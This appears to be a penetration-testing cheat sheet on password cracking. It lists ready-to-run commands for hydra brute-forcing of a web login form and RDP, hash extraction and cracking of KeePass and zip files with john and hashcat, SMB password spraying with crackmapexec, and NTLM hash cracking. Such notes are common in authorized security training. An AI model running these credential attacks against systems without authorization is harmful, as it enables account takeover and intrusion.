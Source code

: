 # 05 - Password Cracking

Index
- [First Rule!](#First-Rule)
- [Form Login](#Form-Login)
- [RDP](#RDP)
- [KeePass DB](#KeePass-DB)
- [Zip](#Zip)
- [SMB password spraying](#SMB-password-spraying)
- [NTML hash](#NTLM-hash)

## First Rules
- Always try the default credentials!
- Search users and passwords in all available files
- Identify the hash (hashid)


## Form Login
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.1 -s 443 http-post-form "/login.php:LOGIN=^LOGIN^&password=^PASS^:Login failed"
         # user file # password file                  # target           # method                   # user field                  # error msg
```

## RDP
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.1
```

## KeePass DB
``` bash
keepass2john Database.kdbx > keepass.hash                                                               ## extract the hash (*)
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule  ## cracking
```
(*) The hash file was generated with the string "Database:", delete it.

## Zip
``` bash
zip2john file.zip > file.hash                               ## hash extraction
john file.hash --wordlist=/usr/share/wordlists/rockyou.txt  ## cracking
```

## SMB password spraying
``` bash
crackmapexec smb 192.168.1.1 -d domain.local -u user.txt -p passwd.txt
```

## NTML hash
``` bash
hashcat -m 1000 file.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```